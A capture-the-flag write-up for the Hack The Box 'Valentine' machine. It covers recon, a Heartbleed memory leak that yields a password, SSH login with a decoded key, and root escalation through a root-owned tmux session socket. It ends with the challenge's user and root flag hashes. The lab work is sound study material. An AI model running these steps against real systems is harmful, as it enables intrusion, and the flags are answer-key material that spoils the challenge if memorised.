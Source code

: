 ```yaml
---
layout: post
title:  "HTB Valentine Linux"
description : 
tags: 
---
```


# Recon
Nmap scan
```ruby
Quick_10.10.10.79.nmap 10.10.10.79
Nmap scan report for 10.10.10.79
Host is up (0.026s latency).
Not shown: 997 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
443/tcp open https
```
We find the site is vulnerable to Heartbleed attack
```ruby
| ssl-heartbleed:
| VULNERABLE:
| The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic
software library. It allows for stealing information intended to be protected by SSL/TLS
encryption.
| State: VULNERABLE
| Risk factor: High
| OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of
OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems
protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise
encrypted confidential information as well as the encryption keys themselves.
```
We run sslyze just to corroborate
```ruby
CHECKING HOST(S) AVAILABILITY
 -----------------------------
 10.10.10.79:443 => 10.10.10.79:443
 SCAN RESULTS FOR 10.10.10.79:443 - 10.10.10.79:443
 --------------------------------------------------
 * OpenSSL Heartbleed:
 VULNERABLE - Server is vulnerable to Heartbleed
```
Dirbuster locates a directory called /dev/ that contain a **hype_key** file
We make use of cyberchef and use the option magic and we get a RSA-AES-128 key
we save it as hype.key format and wi will use it later with SSH
# Exploitation Heartbleed
Since we know the webiste is vuln to heartbleed we quiclly google " heartbleed python
github"
We use the script with the target IP and the number of iterations we want the script to run "-n 30"
After reviewing the ouptput we quickly notice a base64 string that repeats a lot so we copied and decode to get a passwd.
```ruby
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```
```ruby
heartbleedbelievethehype
```
At this point is pretty clear that our path to exploitation is through SSH as we have a ssh key file and a password to use
We proceed to ssh into as user hype
```chmod 600 hype.key
ssh -i hype.key hype@10.10.10.79
```
NOTE:for some reason doing a 755 on hype.key I would get a warning message that was stopping
from login.

# Privelege Escalation
We cat the bash_history file and we find the following:
```ruby
exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess
tmux a -t dev_sess
tmux --help
tmux -S /.devs/dev_sess
```
There is a shell program called tmux owned by root
but with group permission set with "hype" to which we are part of it so we execute
```ruby
tmux -S /.devs/dev_sess
```
and we get ROOT!
```ruby
USER  "e6710a5464769fd5fcd216e076961750" 
ROOT  "f1bb6d759df1f272914ebbc9ed7765b2" 
```
